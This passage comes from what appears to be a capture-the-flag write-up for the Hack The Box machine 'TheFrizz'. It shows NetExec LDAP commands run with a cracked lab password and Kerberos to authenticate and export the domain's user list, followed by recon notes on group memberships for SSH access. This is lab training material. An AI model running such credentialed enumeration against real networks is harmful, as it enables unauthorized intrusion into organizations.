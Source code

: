 ```
fcoomans@kali:~/htb/thefrizz$ nxc ldap frizzdc.frizz.htb -u f.frizzle -p Jenni_Luvs_Magic23 -k
LDAP        frizzdc.frizz.htb 389    FRIZZDC          [*] None (name:FRIZZDC) (domain:frizz.htb)
LDAP        frizzdc.frizz.htb 389    FRIZZDC          [+] frizz.htb\f.frizzle:Jenni_Luvs_Magic23
```

## 🐚🐕 SSH with Kerberos 

### 🔎 Recon

Active Directory Enumeration reveals that 
- `M.Schoolbus` is a member of the `Desktop Admins` and `Remote Management Users` groups.
- `f.frizzle` is a a member of the `Remote Management Users` group.

```
fcoomans@kali:~/htb/thefrizz$ nxc ldap frizzdc.frizz.htb -u f.frizzle -p Jenni_Luvs_Magic23 -k --users-export domain_users.txt
LDAP        frizzdc.frizz.htb 389    FRIZZDC          [*] None (name:FRIZZDC) (domain:frizz.htb)
LDAP        frizzdc.frizz.htb 389    FRIZZDC          [+] frizz.htb\f.frizzle:Jenni_Luvs_Magic23
LDAP        frizzdc.frizz.htb 389    FRIZZDC          [*] Enumerated 21 domain users: frizz.htb
LDAP        frizzdc.frizz.htb 389    FRIZZDC          -Username-                    -Last PW Set-       -BadPW-  -Description-
LDAP        frizzdc.frizz.htb 389    FRIZZDC          Administrator                 2025-02-25 23:24:10 0        Built-in account for administering the computer/domain
LDAP        frizzdc.frizz.htb 389    FRIZZDC          Guest                         <never>             0        Built-in account for guest access to the computer/domain
LDAP        frizzdc.frizz.htb 389    FRIZZDC          krbtgt                        2024-10-29 16:19:54 0        Key Distribution Center Service Account
LDAP        frizzdc.frizz.htb 389    FRIZZDC          f.frizzle                     2024-10-29 16:27:03 0        Wizard in Training
LDAP        frizzdc.frizz.htb 389    FRIZZDC          w.li                          2024-10-29 16:27:03 0        Student
LDAP        frizzdc.frizz.htb 389    FRIZZDC          h.arm                         2024-10-29 16:27:03 0        Student
LDAP        frizzdc.frizz.htb 389    FRIZZDC          M.SchoolBus                   2024-10-29 16:27:03 0        Desktop Administrator
LDAP        frizzdc.frizz.htb 389    FRIZZDC          d.hudson                      2024-10-29 16:27:03 0        Student
LDAP        frizzdc.frizz.htb 389    FRIZZDC          k.franklin                    2024-10-29 16:27:03 0        Student
LDAP        frizzdc.frizz.htb 389    FRIZZDC          l.awesome                     2024-10-29 16:27:03 0        Student
LDAP        frizzdc.frizz.htb 389    FRIZZDC          t.wright                      2024-10-29 16:27:03 0        Student
LDAP        frizzdc.frizz.htb 389    FRIZZDC          r.tennelli                    2024-10-29 16:27:04 0        Student
LDAP        frizzdc.frizz.htb 389    FRIZZDC          J.perlstein                   2024-10-29 16:27:04 0        Student
LDAP        frizzdc.frizz.htb 389    FRIZZDC          a.perlstein                   2024-10-29 16:27:04 0        Student
LDAP        frizzdc.frizz.htb 389    FRIZZDC          p.terese                      2024-10-29 16:27:04 0        Student
LDAP        frizzdc.frizz.htb 389    FRIZZDC          v.frizzle                     2024-10-29 16:27:04 0        The Wizard
LDAP        frizzdc.frizz.htb 389    FRIZZDC          g.frizzle                     2024-10-29 16:27:04 0        Student
LDAP        frizzdc.frizz.htb 389    FRIZZDC          c.sandiego                    2024-10-29 16:27:04 0        Student
LDAP        frizzdc.frizz.htb 389    FRIZZDC          c.ramon                       2024-10-29 16:27:04 0        Student
LDAP        frizzdc.frizz.htb 389    FRIZZDC          m.ramon                       2024-10-29 16:27:04 0        Student
LDAP        frizzdc.frizz.htb 389    FRIZZDC          w.Webservice                  2024-10-29 16:27:04 0        Service for the website
```